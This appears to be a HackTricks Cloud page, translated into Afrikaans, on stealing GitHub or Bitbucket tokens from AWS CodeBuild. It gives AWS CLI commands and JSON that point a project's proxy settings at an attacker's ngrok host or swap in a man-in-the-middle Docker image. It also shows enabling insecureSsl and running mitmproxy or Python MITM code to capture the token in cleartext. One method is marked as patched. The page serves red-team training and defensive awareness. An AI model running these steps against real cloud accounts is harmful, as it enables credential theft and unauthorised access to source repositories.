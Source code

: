 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Herwin Github/Bitbucket Geconfigureerde Tokens

Eerstens, kyk of daar enige bron geloofsbriewe geconfigureer is wat jy kan lek:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

As jy vind dat outentikasie na byvoorbeeld Github in die rekening gestel is, kan jy **exfiltrate** daardie **access** (**GH token of OAuth token**) deur Codebuild te laat **gebruik 'n spesifieke docker image** om die bou van die projek te loop.

Vir hierdie doel kan jy **'n nuwe Codebuild projek skep** of die **omgewing** van 'n bestaande een verander om die **Docker image** in te stel.

Die Docker image wat jy kan gebruik is [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Dit is 'n baie basiese Docker image wat die **env variables `https_proxy`**, **`http_proxy`** en **`SSL_CERT_FILE`** sal stel. Dit sal jou toelaat om die meeste van die verkeer van die gasheer wat in **`https_proxy`** en **`http_proxy`** aangedui is, te onderskep en die SSL CERT wat in **`SSL_CERT_FILE`** aangedui is, te vertrou.

1. **Create & Upload your own Docker MitM image**
* Volg die instruksies van die repo om jou proxy IP adres in te stel en jou SSL cert in te stel en **bou die docker image**.
* **MOENIE `http_proxy` INSTEL NIE** om nie versoeke na die metadata eindpunt te onderskep nie.
* Jy kan **`ngrok`** gebruik soos `ngrok tcp 4444` om die proxy na jou gasheer in te stel.
* Sodra jy die Docker image gebou het, **laai dit op na 'n publieke repo** (Dockerhub, ECR...)
2. **Set the environment**
* Skep 'n **nuwe Codebuild projek** of **wysig** die omgewing van 'n bestaande een.
* Stel die projek in om die **voorheen gegenereerde Docker image** te gebruik.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

* Soos aangedui in die **Github repo** kan jy iets soos gebruik:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Die **mitmproxy weergawe wat gebruik is, was 9.0.1**, daar is gerapporteer dat dit met weergawe 10 dalk nie sal werk nie.
{% endhint %}

4. **Voer die bou uit & vang die geloofsbriewe**

*   Jy kan die token in die **Authorization** koptekst sien:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Dit kan ook vanaf die aws cli gedoen word met iets soos

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild** projekte het 'n instelling genaamd **`insecureSsl`** wat in die web versteek is en jy kan dit slegs vanaf die API verander.\
Deur dit in te skakel, kan Codebuild met die repository verbind **sonder om die sertifikaat** wat deur die platform aangebied word, te kontroleer.

* Eerstens moet jy die huidige konfigurasie opnoem met iets soos:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Dan, met die ingesamelde inligting kan jy die projekinstelling **`insecureSsl`** op **`True`** opdateer. Die volgende is 'n voorbeeld van my opdatering van 'n projek, let op die **`insecureSsl=True`** aan die einde (dit is die enigste ding wat jy moet verander van die ingesamelde konfigurasie).
* Boonop, voeg ook die omgewingsveranderlikes **http\_proxy** en **https\_proxy** by wat na jou tcp ngrok wys soos: 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Dan, voer die basiese voorbeeld van [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) uit in die poort aangedui deur die proxy veranderlikes (http\_proxy en https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Laastens, klik op **Bou die projek**, die **bewyse** sal in **duidelike teks** (base64) na die mitm-poort gestuur word:

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### ~~Deur HTTP-protokol~~

{% hint style="success" %}
**Hierdie kwesbaarheid is op 'n stadium in die week van die 20ste Februarie 2023 deur AWS reggestel (ek dink op Vrydag). So 'n aanvaller kan dit nie meer misbruik nie :)**
{% endhint %}

'n Aanvaller met **verhoogde regte in 'n CodeBuild kan die Github/Bitbucket-token** wat geconfigureer is, lek of as regte via OAuth geconfigureer is, die **tydelike OAuth-token wat gebruik word om toegang tot die kode te verkry**.

* 'n Aanvaller kan die omgewing veranderlike **http\_proxy** en **https\_proxy** by die CodeBuild-projek voeg wat na sy masjien wys (byvoorbeeld `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Verander dan die URL van die github-repo om HTTP in plaas van HTTPS te gebruik, byvoorbeeld: `http://github.com/carlospolop-forks/TestActions`
* Voer dan die basiese voorbeeld van [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) uit op die poort wat deur die proxy-variabeles (http\_proxy en https\_proxy) aangedui word.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Laastens, klik op **Bou die projek**, die **bewyse** sal in **duidelike teks** (base64) na die mitm-poort gestuur word:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Nou sal 'n aanvaller in staat wees om die token vanaf sy masjien te gebruik, al die regte wat dit het op te lys en (mis)bruik makliker as om die CodeBuild-diens direk te gebruik.
{% endhint %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
